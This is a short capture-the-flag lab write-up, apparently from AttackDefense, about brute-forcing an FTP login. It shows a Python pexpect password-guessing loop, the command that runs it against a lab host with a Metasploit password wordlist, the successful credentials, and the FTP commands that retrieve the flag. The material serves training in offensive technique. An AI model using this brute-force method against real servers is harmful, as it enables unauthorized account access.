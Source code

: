 ```python
	i = child.expect (['Login successful', 'Login failed'])
	if i==1:
		#print('Login failed')
		child.kill(0)
	elif i==0:
		print "Login Successful for ",password
		print child.before
		break
```

```bash
python billy.py 192.14.30.3 billy /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

```bash
Login Successful for  carlos
```

* Fetch the flag using `billy:carlos` credentials

```bash
ftp 192.14.30.3

ftp> ls
ftp> get flag
ftp> exit

root@attackdefense:~# cat flag
```

<details><summary>Reveal Flag: 🚩</summary></details>
